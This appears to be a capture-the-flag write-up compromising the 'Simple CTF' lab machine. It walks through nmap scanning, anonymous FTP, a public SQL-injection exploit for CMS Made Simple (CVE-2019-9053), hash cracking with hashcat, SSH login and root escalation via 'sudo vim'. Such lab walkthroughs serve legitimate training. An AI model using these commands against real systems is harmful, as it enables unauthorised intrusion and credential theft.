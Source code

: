 # Simple CTF

```sh
export IP=10.10.70.219
```

## nmap

```sh
map -p- -Pn -A -T5 $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-04-04 16:12 WEST
Nmap scan report for 10.10.70.219
Host is up (0.075s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.10.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ftp 21

Version: vsftpd 3.0.3

- Anonymous FTP login allowed
- Control connection is plain text (ASCII)

Anonymous login: 

```sh
ftp anonymous@$IP
```

```
Connected to 10.10.70.219.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
ftp> cd /home
550 Failed to change directory.
ftp> cd /var/www/html
550 Failed to change directory.
```

ConnectorException: Error getting FTP files: Error from FTP Server, 550 Failed to change directory.

This error means the specified remote directory does not exist.

However it is important to understand how this value should be configured.

```
ftp> ls
229 Entering Extended Passive Mode (|||43236|)
...
```

Code 229: [Extended Passive Mode](https://www.ibm.com/docs/en/zos/2.2.0?topic=codes-229-entering-extended-passive-mode-port-number)

Connected with nc: `nc $IP 43236`

```
...
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
...
```

## http 80

Apache 2.4.18 (Ubuntu)

<details>
  <summary>robots.txt</summary>

  ```
  #
  # "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
  #
  #   This file tells search engines not to index your CUPS server.
  #
  #   Copyright 1993-2003 by Easy Software Products.
  #
  #   These coded instructions, statements, and computer programs are the
  #   property of Easy Software Products and are protected by Federal
  #   copyright law.  Distribution and use rights are outlined in the file
  #   "LICENSE.txt" which should have been included with this file.  If this
  #   file is missing or damaged please contact Easy Software Products
  #   at:
  #
  #       Attn: CUPS Licensing Information
  #       Easy Software Products
  #       44141 Airport View Drive, Suite 204
  #       Hollywood, Maryland 20636-3111 USA
  #
  #       Voice: (301) 373-9600
  #       EMail: cups-info@cups.org
  #         WWW: http://www.cups.org
  #

  User-agent: *
  Disallow: /


  Disallow: /openemr-5_0_1_3 
  #
  # End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
  #
  ```
  
  https://www.google.com/search?q=openemr-5_0_1_3

</details>

## ssh 2222

[Search OpenSSH 7.2p2 CVEs](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=OpenSSH+7.2p2) (2 entries)

<details>
  <summary>Spoiler: password</summary>

  `secret`

</details>

### Exploit

Found /simple with gobuster. This site is powered by CMS Made Simple version 2.2.8

[Search CMS Made Simple CVEs](https://www.exploit-db.com/search?q=CMS+made+simple) (34 entries)
- SQL injection vulnerability [CVE-2019-9053](https://www.exploit-db.com/exploits/46635)

Downloaded [46635.py](46635.py) from exploit-db.com

```sh
sudo apt install python2 python-pip
python2 -m pip install requests termcolor
python2 46635.py -u http://$IP/simple
```

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: 9
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Time to crack the salted hash with [hashcat](https://hashcat.net/hashcat/)

```sh
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 ~/wordlists/rockyou.txt
```

```
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```

```sh
ssh -p 2222 mitch@$IP
$ cat user.txt	
G00d j0b, keep up!
$ /bin/bash
mitch@Machine:/$ cd /home
mitch@Machine:/home$ ll
total 16
drwxr-xr-x  4 root    root    4096 aug 17  2019 ./
drwxr-xr-x 23 root    root    4096 aug 19  2019 ../
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch/
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath/
```

```bash
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

[GTFOBins Vim](https://gtfobins.github.io/gtfobins/vim/)

```sh
tch@Machine:/home$ sudo vim -c ':!/bin/bash'
root@Machine:~# cat /root/root.txt
W3ll d0n3. You made it!
```
